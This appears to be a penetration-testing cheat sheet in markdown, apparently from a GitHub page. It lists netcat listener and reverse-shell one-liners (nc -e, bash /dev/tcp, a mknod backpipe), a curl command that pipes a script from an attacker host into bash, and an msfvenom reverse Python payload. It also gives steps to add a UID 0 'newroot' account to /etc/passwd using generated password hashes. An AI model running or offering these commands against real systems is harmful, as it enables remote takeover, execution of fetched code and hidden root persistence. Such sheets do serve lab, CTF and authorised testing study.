 ### Listen
```
nc -lcnp {PORT}
```

### Reverse Shell
```
nc -e /bin/sh {IP} {PORT}
bash -i >& /dev/tcp/{IP}/{PORT} 0>&1
```

### Reverse Shell Using Backpipe
```
mknod /tmp/backpipe p
/bin/sh 0</tmp/backpipe | nc {IP} {PORT} 1>/tmp/backpipe
```

# Curl

### Run script content
```
curl http://{ATTACKER}/script.sh | bash
```

# Payloads

### Linux Reverse Python Raw
```
msfvenom -p cmd/unix/reverse_python LHOST={HOST_IP} LPORT={HOST_PORT} -f raw
```

# Linux Password

### /etc/shadow
```
mkpasswd -m sha-512 root
$6$bAzyC2dw/9TlXnh$EdycGclOk2oAWJ3ewD0jAebV4E0f15i79Ej4QC0hG/3ILILbSNckjNRQZn0ggnjPqXdgjX2kvzMDRJ5nzhZQG1
```

### /etc/passwd
```
# Generate Password Hash
openssl passwd password
wI1Q.j5MF3peQ

# Add 'newroot' User
echo "newroot:wI1Q.j5MF3peQ:0:0:root:/root:/bin/bash" >> /etc/passwd

# Generate Password Hash With Salt
openssl passwd -1 -salt root root
$1$root$9gr5KxwuEdiI80GtIzd.U0
```
